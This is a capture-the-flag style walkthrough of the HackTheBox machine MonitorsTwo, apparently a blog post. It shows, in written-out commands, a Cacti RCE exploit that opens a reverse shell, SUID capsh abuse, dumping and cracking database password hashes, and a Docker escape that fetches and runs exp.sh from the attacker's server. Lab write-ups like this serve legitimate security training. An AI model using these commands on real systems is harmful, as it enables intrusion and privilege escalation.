 --
title: MonitorsTwo
published: true
layout: post
---

<br />

---------------
MonitorsTwo is an Easy Difficulty Linux machine showcasing a variety of vulnerabilities and misconfigurations. Initial enumeration exposes a web application prone to pre-authentication Remote Code Execution (RCE) through a malicious X-Forwarded-For header. Exploiting this vulnerability grants a shell within a Docker container. A misconfigured capsh binary with the SUID bit set allows for root access inside the container. Uncovering MySQL credentials enables the dumping of a hash, which, once cracked, provides SSH access to the machine. Further enumeration reveals a vulnerable Docker version ( CVE- 2021-41091 ) that permits a low-privileged user to access mounted container filesystems. Leveraging root access within the container, a bash binary with the SUID bit set is copied, resulting in privilege escalation on the host.
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/iPCVUhVGfyY?si=5loK3tb6zWLzhH8v" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sT 10.10.11.211 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.211 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sT 10.10.11.211 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)**
+ **80/tcp nginx 1.18.0 (Ubuntu)**

<br />

------
<br />
### Foothold

The first thing that I notice when checking the website is a **version number** for the **cacti software**:<br />
![](/assets/MonitorsTwo/1.png)
<br />
<br />

A quick search reveals a vulnerability and some exploits:<br />
![](/assets/MonitorsTwo/2.png)
<br />
<br />

I found a [GitHub exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) that works pretty well:<br />
![](/assets/MonitorsTwo/3.png)
<br />
<br />

Let's use it:

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.12 --LPORT=4444
```

![](/assets/MonitorsTwo/4.png)
<br />
<br />

Based on the hostname, it seems that we are in a container:<br />
![](/assets/MonitorsTwo/5.png)
<br />
<br />

Enumerating the machine, I found an **uncommon executable** with **SUID privileges**:<br />
![](/assets/MonitorsTwo/6.png)
<br />
<br />

I checked it on **GTFOBins** and exploited it to gain **root privileges**:<br />

```bash
/sbin/capsh --gid=0 --uid=0 --
```

![](/assets/MonitorsTwo/7.png)
<br />
<br />

Great!!! Let's sanitize the shell and look for a way out of this container:

```bash
script /dev/null -c bash
```
<br />

Enumerating a little bit more we can find an **interesting script**:<br />
![](/assets/MonitorsTwo/8.png)
<br />
<br />

So I copied the command, connected to the database and enumerated it:

```bash
mysql --host=db --user=root --password=root cacti
show tables;
describe user_auth;
select username,password from user_auth;
```

![](/assets/MonitorsTwo/9.png)
<br />
<br />

It seems that we got some credentials, and there was an SSH service, so let's copy this hashes and attempt to crack them:

```bash
echo -n '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'> marcus_hash
echo -n '$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC' > admin_hash
john marcus_hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

![](/assets/MonitorsTwo/10.png)
<br />
<br />

Nice!!! But sadly the admin hash didn't return a result, so let's connect to the machine using SSH:

```bash
ssh marcus@10.10.11.211
```

![](/assets/MonitorsTwo/11.png)
<br />
<br />

------
<br />
### Privilege Escalation

Enumerating the machine, I found an **interesting email** from marcus's CISO:<br />
![](/assets/MonitorsTwo/12.png)
<br />
<br />

Thanks CISO! The CISO reveals us three vulnerabilities, the first one if a **kernel vulnerability** that we may use to escalate privileges, the second one has already been fixed, as Cacti version is 1.2.22, and the third one is a **Docker vulnerability** that we can use to escalate privileges. Let's go first after the Docker vulnerability, as the kernel one may destabilize the machine. I found an [interesting exploit](https://github.com/UncleJ4ck/CVE-2021-41091) so let's put it to work:

```bash
Attacker> git clone https://github.com/UncleJ4ck/CVE-2021-41091
Attacker> cd CVE-2021-41091
Attacker> sudo python3 -m http.server 80
Target> wget http://10.10.16.12/exp.sh
Target> chmod +x ./exp.sh
Target> ./exp.sh
```

![](/assets/MonitorsTwo/13.png)
<br />
<br />

This exploit ask us to set the **SUID bit on the /bin/bash executable on a container**, luckily for us we have already compromised one, so let's set that bit:

```bash
chmod u+s /bin/bash
ls -l /bin/bash
```

![](/assets/MonitorsTwo/14.png)
<br />
<br />

Let's continue with the exploit execution:<br />
![](/assets/MonitorsTwo/15.png)
<br />
<br />

It seems that it worked, let's go to that path and run that command:

```bash
cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
./bin/bash -p
```

![](/assets/MonitorsTwo/16.png)
<br />
<br />

